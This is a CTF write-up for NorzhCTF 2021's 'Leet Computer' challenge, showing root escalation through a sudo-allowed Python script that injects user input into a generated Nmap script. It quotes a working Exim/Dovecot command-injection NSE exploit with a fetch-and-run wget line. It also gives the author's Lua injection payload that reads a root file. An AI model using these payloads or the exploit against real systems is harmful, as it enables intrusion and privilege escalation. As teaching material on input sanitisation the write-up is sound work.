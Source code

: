 # NorzhCTF 2021 - Leet Computer

## The Challenge

> One of the attacker is still in the airport hall, and it seems that he is still connected to the airport wifi ! Get a root shell on its machine to continue your investigation. This challenge will give you access to another network.
> 
> \- by Masterfox

## Context

NorzhCTF was a hackquest style CTF so we had to complete another challenge first to unlock this. The previous challenge was to get a shell on the 'attacker's machine and this one was a privilege escalation challenge.

## Tl;dr

```sh
./mail_scan.py --ip '010.001.001.001' --mail $'"\nos.execute("cat /root/flag") -- '
```

## How we solved it

For this CTF I was on the Digital Overdose CTF team and my one of my teammates had completed the previous challenge. I was looking around the machine for any obviously exploitable things but I couldn't find much at all. One of my teammates noticed that the user (e11i0t) already had sudo. They ran `sudo -l` and found that the user could only run one file with sudo called `mail_scan.py`. `sudo -l` is quite a useful command that I didn't know about before and I don't think I could have completed the challenge without my teammate introducing it to me. Below is the contents of `mail_scan.py`.

```python
#!/usr/bin/env python3
#coding: utf-8

import argparse
from tempfile import NamedTemporaryFile
from os import system
import re

TEMPLATE_NSE = """
description = [[
Attempts to exploit a remote command execution vulnerability in misconfigured Dovecot/Exim mail servers.

It is important to note that the mail server will not return the output of the command. The mail server
also wont allow space characters but they can be replaced with "${{IFS}}". Commands can also be
concatenated with "``". The script takes care of the conversion automatically.

References:
* https://www.redteam-pentesting.de/en/advisories/rt-sa-2013-001/-exim-with-dovecot-typical-misconfiguration-leads-to-remote-command-execution
* http://immunityproducts.blogspot.mx/2013/05/how-common-is-common-exim-and-dovecot.html
* CVE not available yet
]]

---
-- @usage nmap -sV --script smtp-dovecot-exim-exec --script-args smtp-dovecot-exim-exec.cmd="uname -a" <target>
-- @usage nmap -p586 --script smtp-dovecot-exim-exec --script-args smtp-dovecot-exim-exec.cmd="wget -O /tmp/p example.com/test.sh;bash /tmp/p" <target>
--
-- @output
-- PORT    STATE SERVICE REASON
-- 465/tcp open  smtps   syn-ack
-- |_smtp-dovecot-exim-exec: Malicious payload delivered:250 OK id=XXX
--
-- @args smtp-dovecot-exim-exec.cmd Command to execute. Separate commands with ";".
-- @args smtp-dovecot-exim-exec.auth Authentication scheme (Optional).
-- @args smtp-dovecot-exim-exec.user Authentication username (Optional).
-- @args smtp-dovecot-exim-exec.pwd Authentication password (Optional).
-- @args smtp-dovecot-exim-exec.from Email address to use in the FROM field. Default: nmap+domain. (Optional).
-- @args smtp-dovecot-exim-exec.to Email address to use in the TO field. Default: nmap@mailinator.com
-- @args smtp-dovecot-exim-exec.timeout Timeout value. Default: 8000. (Optional)
-- @args smtp-dovecot-exim-exec.domain Domain name to use. It attempts to set this field automatically. (Optional)
---

author = "Paulino Calderon <calderon@websec.mx>"
license = "Same as Nmap--See http://nmap.org/book/man-legal.html"
categories = {{"exploit"}}

local smtp = require "smtp"
local shortport = require "shortport"
local stdnse = require "stdnse"

portrule = shortport.port_or_service({{25, 465, 587}},
                {{"smtp", "smtps", "submission"}})


action = function(host, port)
  local cmd = stdnse.get_script_args(SCRIPT_NAME..".cmd") or "uname"
  --Prepare payload
  cmd = string.gsub(cmd, " ", "${{IFS}}")
  cmd = string.gsub(cmd, ";", "``")

  local user = stdnse.get_script_args(SCRIPT_NAME..".user") or nil
  local pwd = stdnse.get_script_args(SCRIPT_NAME..".pwd") or nil
  local from = stdnse.get_script_args(SCRIPT_NAME..".from") or "nmap@"..smtp.get_domain(host)
  local to = "{mail_address}"
  local conn_timeout = stdnse.get_script_args(SCRIPT_NAME..".timeout") or 8000
  local smtp_domain = stdnse.get_script_args(SCRIPT_NAME..".domain") or smtp.get_domain(host)

  local smtp_opts = {{
    ssl = true, timeout = conn_timeout, recv_before = true, lines = 1
  }}
  local smtp_conn = smtp.connect(host, port, smtp_opts)

  local status, resp = smtp.ehlo(smtp_conn, smtp_domain)
  local auth_mech = stdnse.get_script_args(SCRIPT_NAME..".auth") or smtp.get_auth_mech(resp)
  if type(auth_mech) == "string" then
    auth_mech = {{ auth_mech }}
  end

  if (user and pwd) then
    status = false
    stdnse.print_debug(1, "%s:Mail server requires authentication.", SCRIPT_NAME)
    for i, mech in ipairs(auth_mech) do
      stdnse.print_debug(1, "Trying to authenticate using the method:%s", mech)
      status, resp = smtp.login(smtp_conn, user, pwd, mech)
      if status then
        break
      end
    end
    if not(status) then
      stdnse.print_debug(1, "%s:Authentication failed using user '%s' and password '%s'", SCRIPT_NAME, user, pwd)
      return nil
    end
  end

  --Sends MAIL cmd and injects malicious payload
  local from_frags =  stdnse.strsplit("@", from)
  local malicious_from_field = from_frags[1].."`"..cmd.."`@"..from_frags[2]
  stdnse.print_debug(1, "%s:Setting malicious MAIL FROM field to:%s", SCRIPT_NAME, malicious_from_field)
  status, resp = smtp.mail(smtp_conn, malicious_from_field)
  if not(status) then
    stdnse.print_debug(1, "%s:Payload failed:%s", SCRIPT_NAME, resp)
    return nil
  end

  --Sets recipient
  status, resp = smtp.recipient(smtp_conn, to)
  if not(status) then
    stdnse.print_debug(1, "%s:Cannot set recipient:%s", SCRIPT_NAME, resp)
    return nil
  end

  --Sets data and deliver email
  status, resp = smtp.datasend(smtp_conn, "nse")
  if status then
    return string.format("Malicious payload delivered:%s", resp)
  else
    stdnse.print_debug(1, "%s:Payload could not be delivered:%s", SCRIPT_NAME, resp)
  end
  return nil
 end
"""

parser = argparse.ArgumentParser()
parser.add_argument('--ip', required=True, help='IP of the Dovecot to attacc')
parser.add_argument('--mail', required=True, help='Mail address to check')
args = parser.parse_args()

# Arguments validation
ipregex = re.compile('^([0-9]{3}\.){3}[0-9]{3}$')
if not ipregex.match(args.ip):
  print("Error: IP argument is invalid")
  exit(1)

f = NamedTemporaryFile(suffix=".nse")
with open(f.name, "w") as tmp_file:
    tmp_file.write(TEMPLATE_NSE.format(mail_address=args.mail))
system("nmap --script={} '{}'".format(tmp_file.name, args.ip))
```

I read through the code and figured that it was creating an nmap script, saving it to a temp file and running it 🚨 with user supplied input 🚨.

The program took two parameters; ip, and mail. First I checked the ip regex (as the ip was inserted straight into a shell command) and I thought I might be able to get around the check by including a newline in the ip address, however this didn't work as the multiline option was not specified in the regex and therefore the `^` and `$` were the start and end of the string not the line. The payload I tried is below;

```sh
# the regex is a bit weird so the components of the ip all have to be three digits
sudo ./mail_scan.py --ip $'010.001.001.001\n; echo hi' --mail 'blah'
```

Circumventing the regex didn't work however I could verify that inserting a newline into the argument had worked.

Next I looked at how `args.mail` was being used and found that it was getting inserted straight into the nmap script with no sanitisation. I tried injecting a quotation mark into the mail parameter and it did indeed throw an error when running the nmap script.

Nmap scripts are written in lua so I just injected a call to `os.execute` to read the flag. This means that if nmap finds an open mail port we get the flag, all I had to do now was point it at a server with a mail port open.

```sh
./mail_scan.py --ip '010.001.001.001' --mail $'"\nos.execute("cat /root/flag") -- '
```

And there you go, we have the flag; `NORZH{e11i0t_1s_s0_1337!!}`

## What I learnt

1. `sudo -l` is really useful for finding what commands a user can run as root
2. it is trivial to add newlines to command line arguments
3. DONT EVER USE UNSANITISED USER INPUT

## Conclusion

This challenge was a nice confidence boost after working away at 3 other challenges and not being able to solve any of them.

Overall NorzhCTF was a very unique competition and I found the hackquest style quite interesting, however I still prefer jeopardy style CTFs for now because they are more beginner friendly.